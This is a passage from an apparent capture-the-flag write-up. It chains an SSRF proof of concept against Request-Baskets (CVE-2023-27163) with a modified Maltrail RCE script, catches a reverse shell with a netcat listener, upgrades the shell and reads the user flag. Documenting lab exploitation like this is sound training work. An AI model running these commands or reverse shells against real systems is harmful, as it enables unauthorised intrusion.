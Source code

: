 To exploit this, I’ll grab the POC, but remove where it adds `/login` on line 28. I’ll get a new SSRF url that goes to `/login`:

```
oxdf@hacky$ ./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/login
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "jgulua" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/jgulua now makes the server request to http://127.0.0.1:80/login.
> Authorization: Je6HFdfIxVWIxmlDzyQWsTnB0uFGpdBAkOb8n3WniMGZ

```

Now I’ll run the modified exploit script:

```
oxdf@hacky$ python mailtrack_rce.py 10.10.14.6 443 http://10.10.11.224:55555/jgulua
Running exploit on http://10.10.11.224:55555/jgulua

```

It hangs, but at a listening `nc` there’s a shell:

```
oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.224 46168
$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)

```

I’ll use the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q) to upgrade my shell:

```
$ script /dev/null -c bash
Script started, file is /dev/null
puma@sau:/opt/maltrail$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
puma@sau:/opt/maltrail$

```

I’l grab `user.txt` from the puma user’s home directory:

```
puma@sau:~$ cat user.txt
4353b8ab************************

```

